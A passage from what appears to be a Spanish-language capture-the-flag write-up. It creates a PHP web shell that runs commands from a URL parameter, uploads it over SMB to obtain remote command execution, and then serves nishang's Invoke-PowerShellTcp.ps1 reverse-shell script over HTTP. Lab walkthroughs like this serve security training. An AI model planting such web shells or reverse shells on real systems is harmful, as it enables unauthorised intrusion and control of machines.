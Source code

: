 Podemos comprobar que no hay ninguna `disable_functions`
![Write-up Image](images/Screenshot_19.png)

Creamos una web shell sencilla...
```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?
```

La subimos...
```shell
smb: \> put shell.php
putting file shell.php as \shell.php (0,6 kb/s) (average 0,6 kb/s)
```

¡Y tenemos ejecución remota de comandos!
![Write-up Image](images/Screenshot_20.png)

Ahora con el script `Invoke-PowerShellTcp.ps1` de `nishang` vamos a ganar acceso a la máquina.

Nos copiamos el script y le añadimos esta línea a lo último.

![Write-up Image](images/Screenshot_21.png)

Ahora servimos el script por el puerto 8081.
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
